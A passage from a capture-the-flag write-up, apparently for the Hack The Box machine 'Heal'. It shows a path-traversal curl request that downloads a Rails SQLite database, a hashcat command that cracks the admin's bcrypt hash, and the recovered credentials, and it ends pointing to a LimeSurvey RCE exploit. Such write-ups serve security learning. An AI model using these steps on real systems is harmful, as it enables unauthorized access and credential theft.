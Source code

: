 So, now we know that we can make use of our LFI to get some credentials for this, let's start exploitation.


# EXPLOITATION
---

Now, once we know we got LFI, we can try reading some configuration files, we already know that we are dealing with ruby on rails so if we research the files structure, we get this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311165157.png)

So, let's try to read the `/config/database.yml` file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311165242.png)


We found the database file, it is `/storage/development.sqlite3`, let's download it into our machine to analyze it:


```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" "http://api.heal.htb/download?filename=../../storage/development.sqlite3" --output development.sqlite3
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311165424.png)

We got an users table, we can see our administrator on top, `ralph`, it also got a Bcrypt hash so, let's try to decrypt it:


```
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
```


```
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt


$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```


We got it, these are the credentials:

```
ralph:147258369
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311165940.png)

We are dealing with LimeSurvey 6.6.4, lets' try to search for an exploit:

Exploit: https://ine.com/blog/cve-2021-44967-limesurvey-rce

Got an RCE exploit, we can follow the PoC in that article, the article also uses this script:
